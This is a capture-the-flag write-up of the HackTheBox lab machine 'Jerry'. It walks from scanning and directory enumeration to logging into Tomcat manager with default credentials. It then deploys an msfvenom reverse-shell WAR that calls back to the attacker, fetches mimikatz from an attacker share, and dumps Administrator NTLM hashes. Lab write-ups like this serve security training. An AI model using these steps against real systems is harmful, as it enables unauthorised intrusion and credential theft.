 # Jerry | HackTheBox

### 1. Scan
```
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-x66zuu7qsr]─[~]
└──╼ [★]$ sudo nmap -A -p- -T4 10.129.70.189
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-28 13:46 UTC
Nmap scan report for 10.129.70.189
Host is up (0.22s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   222.78 ms 10.10.14.1
2   222.90 ms 10.129.70.189

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 224.33 seconds
```
The machine is running Apache Tomcat on port 8080.

### 2. Enumeration
Going to "server status" on the Tomcat page in the web browser shows that Tomcat is running JTB version 1.8.0_171-b11 and the operating system in Windows Server 2012 R2, 64-bit. The machine's hostname is JERRY.  
Running a disbust using a tomcat wordlist:
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-x66zuu7qsr]─[~]
└──╼ [★]$ gobuster dir -u http://10.129.70.189:8080 -w /usr/share/dirb/wordlists/vulns/tomcat.txt -t 20
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.129.70.189:8080
[+] Threads:        20
[+] Wordlist:       /usr/share/dirb/wordlists/vulns/tomcat.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/28 14:01:40 Starting gobuster
===============================================================
/examples (Status: 302)
/host-manager (Status: 302)
/manager (Status: 302)
/examples/servlets/index.html (Status: 200)
/examples/jsp/index.html (Status: 200)
/manager/html (Status: 401)
/manager/html/* (Status: 401)
/manager/jmxproxy (Status: 401)
/manager/jmxproxy/* (Status: 401)
/manager/status/* (Status: 401)
/manager/status.xsd (Status: 200)
/host-manager/html/* (Status: 401)
/examples/jsp/snp/snoop.jsp (Status: 200)
===============================================================
2020/12/28 14:01:45 Finished
===============================================================
```
Among the exposed directories is the manager page, but it needs a login. By trying the default credentials for Tomcat, I can get logged in with `tomcat:s3cret`.

### 3. Get a system shell
Through the manager panel I can deploy web applications by uploading a war file. Generate an app to give me a reverse shell:
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-eolbqcu7pq]─[~]
└──╼ [★]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.162 LPORT=9999 -f war > webshell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes
```
Then upload the war file via the admin panel. It is automatically deployed to /webshell.
Access the app to trigger the shell.
```bash
─[us-dedivip-1]─[10.10.14.162]─[htb-jib1337@htb-eolbqcu7pq]─[~]
└──╼ [★]$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.162] from (UNKNOWN) [10.129.1.110] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
nt authority\system

C:\apache-tomcat-7.0.88>copy \\10.10.14.162\jack\mimikatz.exe .\meow.exe
        1 file(s) copied.

C:\apache-tomcat-7.0.88>.\meow.exe "lsadump::sam" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # lsadump::sam
Domain : JERRY
SysKey : 777873202c520da6e5ce6f10e419892b
Local SID : S-1-5-21-2323042369-1334567395-6350930

SAMKey : f9949362f1f1bada77d23e7d6370d3d6

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: fe34b627386c89a49eb254f6a267e4d9

RID  : 000001f5 (501)
User : Guest

mimikatz(commandline) # exit
Bye!
```

